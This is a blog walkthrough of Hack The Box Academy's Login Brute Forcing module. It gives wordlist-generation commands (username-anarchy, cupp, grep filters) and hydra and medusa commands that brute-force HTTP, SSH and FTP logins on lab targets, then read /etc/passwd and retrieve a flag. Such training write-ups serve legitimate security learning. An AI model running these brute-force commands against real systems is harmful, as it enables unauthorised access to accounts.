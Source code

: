 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Login Brute Forcing"
description: "Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module. Learn effective techniques to perform login brute-force attacks, discover common vulnerabilities, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-26 10:51
image:  /images/htb/login-brute-forcing/logo.png
tags:   [authentication,cbbh,brute-forcing]
categories: [htbacademy]
---
```


### Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module. Learn effective techniques to perform login brute-force attacks, and authentication bypass techniques.

>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/57">Login Brute Forcing</a><br/>
<a href="https://jacozwarts.github.io/images/htb/login-brute-forcing/Login_Brute_Forcing_Module_Cheat_Sheet.pdf">Login Brute Forcing - Cheat Sheet</a><br/>
<a href="https://academy.hackthebox.com/module/57/section/504">Hydra - Cheat Sheet</a><br/>

<br/>

### Notes:
#### Command to match passwords with min requirements using grep:

```
grep -E '^.{8,}$' {TEXTFILE.txt} > {RESULTS.txt}
```

#### Custom Wordlists:
```
sudo apt install ruby -y
```
```
git clone https://github.com/urbanadventurer/username-anarchy.git
```
`Use username-anarchy to generate possible usernames:`
```
./username-anarchy Jan van Zyl > jan_van_zyl_usernames.txt
```

![username-anarchy result](/images/htb/login-brute-forcing/username-anarchy-result.png)

`Install cupp`:
```
sudo apt install cupp -y
```
```
cupp -i
```

`Grep command to filter passwords to meet min requirements:`
```
grep -E '^.{6,}$' jan_van_zyl.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jan_van_zyl-filtered.txt
```
`Hydra post example:`
```
hydra -L jan_van_zyl_usernames.txt -P jan_van_zyl-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

### Part 1: What is the password for the basic auth login?

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt {TARGET_IP} http-get / -s {TARGET_PORT}
```

### Part 2: What is the username of the ftp user you find via brute-forcing?

#### Bruteforce ssh using medusa

```
medusa -h {TARGET_IP} -n {TARGET_PORT} -u {PART1_USERNAME} -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3
```

`Connect to ssh`
```
ssh {ssh_username}@{TARGET_IP} -p {TARGET_PORT}
```

To find the username I investigated the `/etc/passwd` file.

#### Bruteforce ftp using medusa:
```
medusa -h 127.0.0.1 -u {USERNAME} -P {PASSWORD_WORDLIST} -M ftp -t 5
```
`Note use the password.txt file found on the box.`

### Part 2: What is the flag contained within flag.txt

#### Connect to ftp:
```
ftp ftp://{USERNAME}:{PASSWORD}@{SERVER}
```

#### Download flag.txt
```
get <remote-file-path> <local-file-path>
```
<hr/>